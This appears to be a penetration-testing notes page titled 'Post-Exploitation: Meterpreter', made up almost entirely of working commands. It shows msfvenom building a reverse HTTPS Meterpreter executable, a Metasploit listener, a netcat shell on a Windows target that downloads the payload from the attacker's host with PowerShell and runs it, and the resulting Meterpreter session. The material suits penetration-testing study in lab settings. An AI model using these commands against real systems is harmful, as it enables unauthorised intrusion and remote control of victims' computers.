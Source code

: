 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Post-Exploitation

## Meterpreter

{% code overflow="wrap" %}
```bash
# Create a non-staged payload
$ msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.232 LPORT=443 -f exe -o met.exe

# Setup listener
$ sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD windows/x64/meterpreter_reverse_https
msf6 > set LHOST tun0
msf6 > set LPORT 443
msf6 > run
```
{% endcode %}

```bash
# Download and execute the payload on the target
$ nc 192.168.241.223 4444
Microsoft Windows [Version 10.0.22000.1219]
(c) Microsoft Corporation. All rights reserved.

C:\Users\luiza>powershell iwr -uri http://192.168.45.232/met.exe -OutFile met.exe
powershell iwr -uri http://192.168.45.232/met.exe -OutFile met.exe

C:\Users\luiza>.\met.exe
.\met.exe
```

{% code overflow="wrap" %}
```bash
# Catch the reverse shell
msf6 exploit(multi/handler) > run
[*] Started HTTPS reverse handler on https://192.168.45.232:443
...
[*] Meterpreter session 1 opened (192.168.45.232:443 -> 192.168.241.223:49595) at 2025-04-24 11:08:44 +0300

meterpreter >
```
{% endcode %}
